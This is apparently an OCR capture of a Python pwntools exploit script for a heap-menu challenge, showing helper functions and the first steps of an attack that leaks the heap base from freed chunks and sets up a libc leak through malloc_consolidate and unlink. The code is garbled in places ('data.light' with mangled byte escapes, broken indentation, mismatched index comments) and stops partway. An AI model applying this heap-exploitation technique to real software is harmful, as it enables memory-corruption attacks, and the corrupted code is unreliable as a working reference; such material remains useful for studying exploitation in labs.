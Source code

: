 ```python

    p.recvuntil('Is it OK?\n')

    p.sendline('Y')





def delete(idx):

    p.recvuntil('(CMD)>>> ')

    p.sendline('d')

    p.recvuntil('(INDEX)>>> ')

    p.sendline(str(idx))





def run():

    p.recvuntil(

        '  ============================================================================\n\n'

    )

    # 1. leak heap base

    add(0x70, 'a' * 8)  # idx 0

    add(0x70, 'b' * 8)  # idx 1

    add(0x100, 'c' * 8)  # idx 2



    delete(2)  # delete idx 1

    delete(1)  # delete idx 0, idx 0 point to idx 1

    p.recvuntil(' # CONTENT: ')

    data = p.recvuntil('\n', drop=True)  # get pointer point to idx1

heap_base = u64 (data.light (8, &#39;x00&#39;)) - 0x80
    log.success('get heap base: ' + hex(heap_base))



    # 2. leak libc base

    # this will trigger malloc_consolidate
    # first idx0 will go to unsorted bin

    # second idx1 will merge with idx0(unlink), and point to idx0

    # third idx1 will merge into top chunk

```